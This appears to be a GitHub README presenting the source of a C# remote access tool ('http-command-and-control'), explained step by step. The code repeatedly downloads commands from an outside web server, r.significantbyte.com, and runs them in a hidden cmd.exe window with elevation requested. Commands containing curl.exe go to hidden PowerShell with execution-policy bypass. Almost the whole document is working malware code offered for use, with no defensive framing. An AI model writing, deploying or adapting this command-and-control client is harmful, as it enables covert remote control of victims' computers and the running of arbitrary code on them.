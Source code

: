 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
                          new WebClient().DownloadString("https://r.significantbyte.com/go.php");
<br>
<b>Run command in device.</b><br>
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;
                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();
                            cmd.StandardInput.WriteLine(json);
                            <br>
  
<b>Lets wait for 1 second</b>
                            Thread.Sleep(1000);
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>
 while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://r.significantbyte.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
